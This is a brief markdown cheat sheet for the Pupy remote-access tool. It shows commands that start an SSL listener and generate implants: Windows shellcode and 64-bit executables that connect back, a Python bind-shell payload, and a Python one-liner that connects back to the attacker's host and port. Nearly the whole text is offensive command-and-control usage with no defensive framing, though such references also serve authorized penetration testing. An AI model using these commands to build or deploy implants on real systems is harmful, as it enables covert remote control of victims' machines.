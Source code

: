 # Pupy
## Run the server
Once you have [correctly](https://github.com/n1nj4sec/pupy/wiki/Installation) installed pupy, you are ready to launch the server.
```
>> listen -a <transport> <port>
```

## Transport
-
```
>> listen -a ssl 8443
[+] Listen: ssl: 8443
```
## Payloads Generation


### Generic Payload Generation with pupy

This command allows you to generate a payload with **customizable format**, launcher, and transport.

```
>> gen -f <format> <launcher> -t <transport>
```
### Windows Shellcode Payload with pupy
Generates a Windows shellcode payload that connects to the specified IP and port using a transport method.
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```
### Windows Executable Payload with pupy
Creates a Windows executable payload for **64-bit** architecture that connects back to the given host and port using the specified transport.
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```
### Python Bind Payload with pupy
Generates a **Python payload** that opens a listener on the target machine, binding to a specific port with the specified transport method.
```
>> gen -f py bind --port port -t transport
```
### Python One-liner Connect Payload with pupy
Creates a Python one-liner payload that connects back to the attacker machine at the specified IP and port using the chosen transport.

```
>> gen -f py_oneliner connect --host ip:port -t transport
```

